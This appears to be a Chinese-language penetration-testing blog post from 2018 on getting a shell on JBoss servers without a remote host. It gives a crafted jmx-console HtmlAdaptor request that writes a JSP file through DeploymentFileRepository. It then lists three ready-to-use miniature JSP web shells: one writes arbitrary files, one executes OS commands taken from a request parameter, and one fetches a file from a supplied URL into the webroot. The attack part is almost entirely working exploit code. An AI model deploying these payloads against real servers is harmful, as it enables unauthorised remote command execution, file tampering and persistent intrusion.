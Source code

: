 ```yaml
---
title: "JBoss 本地 Getshell"
date: 2018-08-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['jboss']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Jboss 远程部署 getshell 有时候会爆 `org.jboss.web.tomcat.filters.ReplyHeaderFilter.doFilter` 的错误.

本地 getshell 不需要远程主机, 缺点是只能写特别小的 jsp 马, 太大可能会 400 或者 no response found.

<!--more-->

```
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=CONTENT&argType=boolean&arg4=True
```

把 CONTENT 替换成要写入的内容, 注意先要进行一次 url 编码.

给出几个特别小的马.

写 shell, 传参 `?f=test.txt&t=helloworldT`

```
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %>
```

执行命令, 传参 `?i=whoami`

```
<%if(request.getParameter("i")!=null){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>
```

下载文件, 传参 `?f=test.txt&u=http://example.com/test.txt`

```
<% if(request.getParameter("u")!=null){java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();byte[] b = new byte[1024];java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();int a = -1;while ((a = in.read(b)) != -1) {baos.write(b, 0, a);}new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());}%>
```